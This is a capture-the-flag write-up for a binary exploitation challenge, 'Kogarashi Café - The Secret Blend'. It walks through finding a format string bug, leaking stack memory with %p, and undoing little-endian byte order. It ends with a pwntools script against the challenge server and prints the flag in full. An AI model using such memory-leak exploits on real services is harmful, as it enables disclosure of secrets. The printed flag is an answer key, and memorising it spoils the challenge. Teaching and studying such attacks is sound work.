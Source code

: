 # Kogarashi Café - The Secret Blend

## Description
Not everything on the menu is meant to be seen.

- Author: Suraj
- flag: apoorvctf{Th3_M3nu_L34ks_M0re_Than_It_Sh0uld}

**Category : Binary Exploitation**

## Writeup

## Challenge Overview

In this challenge, we're given a binary called `secret_blend`. Our goal is to exploit a format string vulnerability to extract a flag that's loaded into memory but not directly printed to us.

## Initial Analysis

Let's first run the binary to see what it does:

```
$ ./secret_blend
Welcome to Kogarashi Café.
Barista: 'What will you have?'
test
test
```

The program prompts us for input, then echoes it back before exiting. This simple interface might hide a vulnerability.

## Identifying the Format String Vulnerability

Format string vulnerabilities occur when user input is directly passed to functions like `printf()` without a proper format string. Let's test if this program has such a vulnerability by providing format specifiers as input:

```
$ ./secret_blend
Welcome to Kogarashi Café.
Barista: 'What will you have?'
%x %x %x %x
64 f7fb7580 804c000 f7fb0000
```

Success! Instead of printing the literal string "%x %x %x %x", the program interpreted our format specifiers and leaked values from the stack. This confirms a classic format string vulnerability.

## Understanding Format String Vulnerabilities

When a format string vulnerability exists, we can use format specifiers to:
1. Read data from the stack (%x, %p, %s)
2. Read from arbitrary memory addresses (%s with address)
3. Even write to memory (%n) - though we won't need this for this challenge

In this case, we're most interested in reading data from the stack to find our flag.

## Exploiting the Vulnerability - Memory Leak

Since we know the program reads the flag into memory, our strategy is to use the `%p` format specifier to dump memory contents and look for the flag. The `%p` specifier prints addresses in a readable format, which can help us identify memory patterns.

Let's try to leak a large portion of memory:

```
$ ./secret_blend
Welcome to Kogarashi Café.
Barista: 'What will you have?'
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
0x64 0xf7eaa5c0 0xf7cf9b55 0xf7eaad40 0xf7eaad87 0x6f6f7061 0x74637672 0x68547b66 0x334d5f33 0x4c5f756e 0x736b3433 0x72304d5f 0x68545f65 0x495f6e61 0x68535f74 0x646c7530 0xf7ea007d 0xffa1b8a8 0xf7cfabf7 0x1 (nil) 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 
```

## Decoding Hex Values and Finding the Flag

When we convert these hex values to ASCII, we get something like:

```
d÷ê¥À÷ÏU÷ê­@÷ê­oopatcvrhT{f3M_3L_unsk43r0M_hT_eI_nahS_tdlu0÷ê}ÿ¡¸¨÷Ï«÷% p%p% p p% % p%p% p p% % p%p% p p% % p%p% p p% 
```

Looking at this output, we can see what appears to be parts of the flag: `oopatcvrhT{f3M_3L_unsk43r0M_hT_eI_nahS_tdlu0`. However, this doesn't look quite right. The text is scrambled because of endianness issues.

## Understanding Endianness

In computer systems, multi-byte values can be stored in two ways:
- **Little-endian**: The least significant byte is stored first
- **Big-endian**: The most significant byte is stored first

Most x86 and x86-64 systems use little-endian format. When we dump memory using `%p` and then convert it to ASCII, we need to account for this endianness.

Looking at our decoded output, we can see what looks like a scrambled version of "apoorvctf{something}". The characters are not in the right order because they're stored in little-endian format, meaning we need to flip each 4-byte chunk to read it correctly.

## Extracting the Flag

To extract the flag properly, we need to:
1. Identify the 4-byte chunks that contain the flag
2. Reverse the byte order in each chunk
3. Concatenate them to form the complete flag

For example, if we see the bytes:
```
0x6f6f7061 0x74637672 0x68547b66 0x334d5f33 0x4c5f756e 0x736b3433 0x72304d5f 0x68545f65 0x495f6e61 0x68535f74 0x646c7530
```

If we reverse each 4-byte group to get:
```
apoorvctf{Th3_M3nu_L34ks_M0re_Than_It_Sh0uld}
```

## Exploit Script

Here's a Python script that automates the exploitation process:

```python
from pwn import *

#p = process('./secret_blend')
p = remote('chals1.apoorvctf.xyz', 3003)

p.sendline(b"%p " * 40)

output = p.recvall(timeout=2).decode(errors='ignore')

# Extract all hexadecimal values
import re
hex_values = re.findall(r'0x[0-9a-fA-F]+', output)

flag_parts = []
for val in hex_values:
    if len(val) > 2:
        try:
            bytes_val = bytes.fromhex(val[2:])[::-1]
            flag_parts.append(bytes_val)
        except:
            pass

raw_text = b"".join(flag_parts).decode(errors='ignore')

if "apoorvctf{" in raw_text:
    flag_start = raw_text.find("apoorvctf{")
    flag_end = raw_text.find("}", flag_start) + 1
    flag = raw_text[flag_start:flag_end]
    print(f"Flag: {flag}")
else:
    print("Flag not found")

p.close()
```

Running this script against the remote server will automatically extract and print the flag.

## Conclusion

This challenge demonstrates a classic format string vulnerability. By using format specifiers like %p, we were able to leak memory contents and extract the flag that was stored in the program's memory.
